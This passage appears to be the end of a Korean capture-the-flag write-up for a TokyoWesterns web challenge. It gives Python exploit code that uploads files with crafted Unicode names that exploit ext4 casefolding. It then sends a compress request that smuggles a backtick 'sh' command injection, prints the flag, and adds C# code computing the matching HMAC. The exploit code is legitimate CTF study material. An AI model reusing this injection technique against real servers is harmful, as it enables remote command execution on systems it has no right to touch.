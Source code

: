 ```python
Content-Disposition: form-data; name="uploadedFilenameTag"

{tag}
------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="button2"

Compress
------WebKitFormBoundarycTTUhLx8GPsIrRrB
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEdAAEAAAD/////AQAAAAAAAAAPAQAAAAUAAAAIyd/IalikKYp4o/TJEB6bjEPD+b8LAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOTyO0VpwYzoHI+eXiWfAGvnzmaoGBHm77uPr8qGQH1E
------WebKitFormBoundarycTTUhLx8GPsIrRrB--'''.format(filename=filename, tag=tag).replace('\n', '\r\n') + ' '*100
    p.send(payload)
    p.interactive()

upload("\u0338a")
upload("\u1FEFsh\u226Ea\u226Fb\u1FEF")
compress("`sh<\u0338a>\u0338b`", "u15vKcAnJTc0p2SSfYLqs7XQzuSZfIj+uikBQ2S7lmc=")
```

FLAG : `TWCTF{c0e7d10abe93c98ec4c3025b498cd383_ext4_casefold+web_server=vuln!}`

### Appendix #1 - hmac 구하는 코드

```python
using System;
using System.Configuration;
using System.Diagnostics;
using System.IO;
using System.Security.Cryptography;
using System.Text;
using System.Collections.Generic;
using System.Linq;
using System.Text.RegularExpressions;

namespace Rextester
{

    public class Program
    {
        public static void Main(string[] args)
        {
			Console.WriteLine("\u1FEFsh<\u0338a>\u0338b\u1FEF");
            Console.WriteLine(GenerateHmac("\u1FEFsh<\u0338a>\u0338b\u1FEF"));
        }

        private static string keyEncryptionKeyHex =
            "aabad0f0a8fefae3eb8b032ab0c99627";

        private static int HexdigitToInteger(char c)
        {
            if ('0' <= c && c <= '9')
                return c - '0';
            else if ('a' <= c && c <= 'f')
                return c - 'a' + 10;
            else if ('A' <= c && c <= 'F')
                return c - 'A' + 10;
            else
                throw new ArgumentException("Invalid hex");
        }
```